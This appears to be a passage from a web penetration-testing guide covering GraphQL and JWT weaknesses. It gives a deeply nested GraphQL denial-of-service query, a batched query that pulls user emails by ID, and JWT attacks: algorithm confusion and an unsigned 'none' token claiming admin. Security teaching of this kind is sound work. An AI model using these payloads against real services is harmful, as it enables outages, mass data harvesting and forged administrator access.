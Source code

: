 **Query depth attack (DoS):**
```graphql
# Deeply nested query to overwhelm server
{
  user {
    posts {
      comments {
        replies {
          author {
            posts {
              comments {
                # Continue nesting...
              }
            }
          }
        }
      }
    }
  }
}
```

**Batch attack:**
```graphql
# Send many queries in one request
[
  {"query": "{ user(id: 1) { email } }"},
  {"query": "{ user(id: 2) { email } }"},
  {"query": "{ user(id: 3) { email } }"},
  # Repeat for thousands of users
]
```

---

## Modern Authentication Testing

### JWT (JSON Web Tokens)

**JWT structure:** header.payload.signature

**Common JWT vulnerabilities:**

**Algorithm confusion:**
```bash
# Change RS256 (asymmetric) to HS256 (symmetric)
# Use public key as HMAC secret
# This bypasses signature verification
```

**No signature verification:**
```bash
# Remove signature entirely
eyJhbGciOiJub25lIn0.eyJ1c2VyIjoiYWRtaW4ifQ.
# Some implementations accept unsigned tokens
```
